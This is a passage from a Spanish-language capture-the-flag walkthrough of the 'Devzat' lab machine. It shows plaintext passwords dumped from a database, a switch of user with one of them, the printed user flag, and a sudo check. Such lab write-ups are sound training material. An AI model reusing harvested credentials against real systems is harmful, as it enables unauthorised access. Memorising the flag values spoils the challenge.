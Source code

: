 ```console
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

Tenemos las credenciales de los usuarios, por lo cual ya podemos identificarnos como **`catherine`** y leer la flag.

```console
patrick@devzat:~$ su catherine
Password: woBeeYareedahc7Oogeephies7Aiseci
catherine@devzat:/home/patrick$ cd
catherine@devzat:~$ cat user.txt 
52ac9d081445b06ca9f96ac9ef9b2d7c
```

## Escalada de Privilegios

Como siempre, lo primero que hago es comprobar permisos a nivel de sudo:

```console
catherine@devzat:~$ sudo -l
[sudo] password for catherine: 
Sorry, user catherine may not run sudo on devzat.
catherine@devzat:~$ sudo -i
[sudo] password for catherine: 
catherine is not in the sudoers file.  This incident will be reported.
```

Pero en esta ocasión no tenemos permiso para ejecutar sudo. Cuidao que se tensa...
En este punto se me ocurre repetir lo mismo que hicimos con el usuario **`patrick`**, conectarnos al DevChat como **`catherine`** para ver si también encontramos alguna pista.

```console
catherine@devzat:~$ ssh -l catherine devzat.htb -p 8443
```
